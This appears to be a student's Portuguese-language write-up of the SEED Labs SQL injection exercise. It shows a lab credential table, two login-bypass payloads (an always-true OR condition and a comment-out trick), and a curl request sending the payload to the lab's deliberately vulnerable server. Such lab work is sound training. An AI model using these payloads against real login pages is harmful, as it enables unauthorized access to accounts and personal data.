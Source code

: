 # Trabalho realizado nas Semana #8 e #9

## **Seed Labs**

## Tarefa 1

```
    mysql> select * from credential where Name = "Alice";
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    | ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    |  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    1 row in set (0.01 sec)

    mysql> 
```

## Tarefa 2

Colocando "Admin' OR 'a'='a" no username vai alterar a query fazendo com que a condição seja sempre verdadeira. A query será assim:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
    FROM credential
    WHERE name= 'Admin' or 'a'='a' and Password='';
```

![login](login.png)

![info](details.png)

Uma alternativa mais simples é colocar "Admin'#" no username, o que fará com que o que vem depois do '#' seja apenas um comentário, o que faz com que a condição seja verdadeira em name = 'Admin'. A nova query será então:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
    FROM credential
    WHERE name= 'Admin'#' and Password='';
```

![login2](login2.png)

## Tarefa 3

http://www.seed-server.com/unsafe_home.php?username=Admin%27%23&Password=

```
    curl 'http://www.seed-server.com/unsafe_home.php?username=Admin%27%23&Password=' > index.html
```

abrindo o index.html no browser, obtemos:

![info](details2.png)


